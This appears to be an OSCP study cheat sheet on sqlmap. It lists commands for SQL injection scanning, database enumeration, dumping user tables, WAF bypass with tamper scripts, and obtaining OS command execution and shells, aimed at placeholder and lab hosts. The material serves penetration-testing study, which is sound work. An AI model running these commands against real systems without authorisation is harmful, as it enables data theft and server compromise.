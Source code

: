 # 3. sqlmap \(not for OSCP\)

### sql is not allowed in OSCP, this is just an informational page to understand how sqlmap works

I have written it such that, if required you could manually work of how an sqlmap would work for Blind SQL injection attacks.

ref : [https://resources.infosecinstitute.com/important-sqlmap-commands/\#gref](https://resources.infosecinstitute.com/important-sqlmap-commands/#gref)

We could do the following using SQLmap

* HTTP REQUESTS scanning
  * POST requests 
    * `sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user`
  * GET requests
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -p id`
* POST login page scan
  *  `sqlmap -u http://192.168.202.163/admin/index.php?id=1 –cookie=”cookie value”`
  * Sly,
    * cookie \(PHP Session\)
    *  user-agent and random-agent
    * referer
  * notice that here we have not given "`-p id`".
* CRAWL
  *  `sqlmap -u http://192.168.202.160/ –crawl=1`
* Risks and Levels
  * Risk allows the type of payloads used by the tool. By default, it uses value 1 and can be configured up to level 3. Level 3, being the maximum, includes some heavy SQL queries.
  * The level defines the number of checks/payload to be performed. The value ranges from 1 to 5. 5, being the maximum, includes large number of payloads in the scan.
  * The risk and level are recommended to be increased if SQLMap is not able to detect the injection in default settings.
* Database Enumeration
  * `–dbs`
    * To enumerate database.
    * `sqlmap -u http://site-to-test.com/test.php?id=1 --dbs`
  * `--tables` 
    * Say now we have the database name say "wp-users".
    * and we need to enumerate the number of users.
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -D wp-users --tables`
  * `--columns`
    * say now we have a table name "users"
    * and we need to list all the columns present in this table.
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -D wp-users -T users --columns`
  * `--dump`
    * To print all the data in table name "users".
    * `sqlmap -u http://site-to-test.com/test.php?id=1 -D wp-users -T users --dump`
  * others
    * --current-user, --current-db
    * --privileges, --roles, --is-dba, --hostname
* Bypassing a web application firewall \(WAF\)
  * --identify-waf
  * We could now use the tamper script to attack WAF
    * --tamper=apostrophemask -v 3
* Running system commands
  * `sqlmap -u http://site-to-test.com/test.php?id=1 --os-cmd id`
  * `sqlmap -u http://site-to-test.com/test.php?id=1 --os-shell`
* Running SQL interactive shell
  * `sqlmap -u http://site-to-test.com/test.php?id=1 --sql-shell`

 

![Successful SQLMap attack](../../../.gitbook/assets/image%20%286%29.png)

The above image tells us how a successful sqlmap attack looks with parameter "username" as vulnerable.







